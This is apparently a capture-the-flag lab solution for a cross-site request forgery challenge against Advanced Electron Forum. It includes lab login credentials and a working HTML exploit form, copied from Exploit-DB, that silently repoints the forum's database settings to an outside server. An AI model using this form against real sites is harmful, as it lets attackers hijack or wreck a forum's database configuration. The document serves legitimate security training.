











<table><tr><th colspan="1" valign="top"><b>Name</b> </th><th colspan="1" valign="top">Advanced Electron Forum </th></tr>
<tr><td colspan="1" rowspan="2" valign="top"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=323>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : CSRF </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

**Step 2:** Search on google “advanced electron forum exploit” and look for publicly available exploits. 

The exploit db link contains the HTML script required to exploit the vulnerability. **Exploit DB Link: <https://www.exploit-db.com/exploits/39261>**  ![ref1]

**Step 3:** The user has to authenticate in order to exploit the vulnerability. The login credentials are provided in the challenge description. Navigate to the login portal and log into the web application 

**URL:** http://nxkibhlaxp4mpr6dhj7xq8aza.mumbaix.attackdefenselabs.com/index.php?act=login 

Credentials: 

- **Username:** admin 
- **Password**: password1 

Admin Dashboard: ![ref1]

**Step 4:** Copy the HTML script provided at exploit db link and update the URL in the request.  **HTML Script:** 

<form id="DOOM" accept-charset="ISO-8859-1" action="http://nxkibhlaxp4mpr6dhj7xq8aza.mumbaix.attackdefenselabs.com/index.php?act=admin&adact =conpan&seadact=mysqlset" 

method="post" name="mysqlsetform"> 

<input type="hidden" name="server" value="hyp3rlinx.altervista.org" /> 

<input type="hidden" name="user" value="hyp3rlinx" /> 

<input type="hidden" name="password" value="DESTROYED" /> 

<input type="hidden" name="database" value="AEF" /> 

<input type="hidden" name="dbprefix" value="aef\_" />  

</form> 

Save the HTML script as csrf.html ![ref1]

**Step 5:** Open the HTML script in the same browser session. 

The exploit was unsuccessful as the csrf request was not processed because of login pop-up **Step 6:** Login with the credentials and open the csrf.html again. 

The CSRF was successful and as a result the db credentials were changed.  ![ref1]

**References:**  

1. Advanced Electron Forum (<http://www.anelectron.com/>)  ![ref1]
1. Advanced Electron Forum 1.0.9 - Cross-Site Request Forgery (<https://www.exploit-db.com/exploits/39261/>)  

[ref1]: Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.003.png
